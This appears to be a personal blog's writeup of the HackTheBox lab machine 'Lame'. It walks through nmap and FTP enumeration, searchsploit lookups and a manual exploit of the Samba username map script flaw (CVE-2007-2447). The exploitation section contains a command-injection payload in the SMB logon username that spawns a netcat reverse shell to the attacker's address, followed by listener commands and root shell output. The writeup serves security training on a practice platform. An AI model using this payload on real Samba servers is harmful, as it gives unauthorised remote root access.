 ```yaml
---
layout: post
title:  "HackTheBox - Lame Writeup"
categories: HackTheBox
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Lame" (10.10.10.3) on the platform HackTheBox. HackTheBox is a pentetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

The first thing we're going to do is run an NMAP scan using the following command `nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3` if you're wondering about the last flag `-oX` that is allowing me to output the report into an XML format, this is because I use webmap (as you can see in the /tmp/webmap) which is an awesome tool that allows me some visual aids for a box/network!

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ nmap -sV -sC -Pn -oX /tmp/webmap/lame.xml 10.10.10.3

Starting Nmap 7.60 ( https://nmap.org ) at 2019-01-28 03:04 GMT
Nmap scan report for 10.10.10.3
Host is up (0.026s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-01-24T19:05:12-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

As you can see, we have a few ports open here, however, ftp grabs my attention straight away as we have a line `ftp-anon: Anonymous FTP login allowed (FTP code 230)` this basically means we can login with the username `anonymous` and pretty much any password, so let's try logging in with FTP and seeing what we can find.

### FTP

In order to login anonymously we can just use `ftp 10.10.10.3` then we will be prompted for a username, it is important you use `anonymous` as the username and you can just press enter for the password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:linxz): anonymous
331 Please specify the password.
Password:
230 Login successful.
```  

As you can see we can login just fine with this, now let's take a look around and try to find some files, etc. Firslty we'll do a pwd to see where we are on the file system and see if we have any files in our current directory.

```
ftp>
ftp> pwd
257 "/"
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

So, looks like this is pretty empty so I guess this is not the correct attack route I suppose. So we'll focus on the Samba side of things now, it is worth noting, that vsFTPD 2.3.4 has a backdoor vulnerability, I did not mention this before but if you use `searchsploit` and `vsftpd 2.3.4` you will see the vulnerability I am talking about.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit vsftpd 2.3.4
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                             | exploits/unix/remote/17491.rb
------------------------------------------------------------------------------------------------------------------- ----------------------------------
```

However, what we just attempted is basically doing exactly what the Metasploit module would do so we don't need to use the Metasploit module. The point is, it is always a good habit to do a Searchsploit on the versions of software.

### Samba

We know that Samba is running so let's try to attack this - as I mentioned it is always a good idea to use Searchsploit on version numbers you get, in this case from our nmap scan we know that the version is `3.0.20-Debian` so we'll do a Searchsploit on this, dropping the `debian` though else Searchsploit might not find it.

```
linxz@linxzsec:/opt/exploitdb$ ./searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/opt/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                   | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                              | exploits/linux/remote/7701.txt
```

There also appears to be a Remote Heap Overflow here however, we won't try that unless the Username map script does not work, this is because it will be a little harder to actually exploit so we'll stick with the "Username Map Script" exploit first. Interetingly, I already knew about this exploit as I [made a post](https://linxz.co.uk/vulnerabilities/2018/11/14/Samba-username-map-script.html) about it previously.

## Exploitation

So, it looks like this box is vulnerable to CVE2007-2447. Let's exploit this, however, we're not going to use Metasploit as this is really easy to exploit manually and will help us with concepts such as reverse shells & just getting used to the exploitation process if we don't have Metasploit available.

Firstly we need to see what shares are available, we can do this using `smbclient -L //10.10.10.3/`

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient -L //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

As you can see in the above, we have `opt` & `tmp` let's try and connect to `tmp` with an anonymous login, in order to do this you can just use `smblclient //10.10.10.3/tmp` and hit enter to send a blank password.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ smbclient //10.10.10.3/tmp
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\linxz's password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \>
```

Now that we've logged into the share, we want to actually exploit this vulnerability, if you want to understand how it works you can go and read my post that I linked earlier as I'm not going to explain the exploit here.

So firstly we're going to use netcat to create a listener on our device, this can be done with `nc -nvlp 4444` once we have the listener running we're going to send the following payload into the device.

```
smb: \> logon "./=`nohup nc 10.10.14.2 4444 -e /bin/bash`"
Password:
```

If you hit enter at the password prompt you should then see a connection back into your listener, you now have a shell! It is time for privilege escalation! Well, usually it would be time for privilege escalation however we actually get a root account straight away on this box so we don't need to do any kind of privilege escalation.

```
linxz@linxzsec:~/Documents/Hacking/HTB/Boxes/Retired/Lame$ netcat -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.10.3 43316 received!
whoami
root
```

Now we can just go and get the user flag from the users desktop and the root flag, submit them and we're done with the box! As I said, if you'd like to understand how the exploit works a little more you can go and read my post on it!
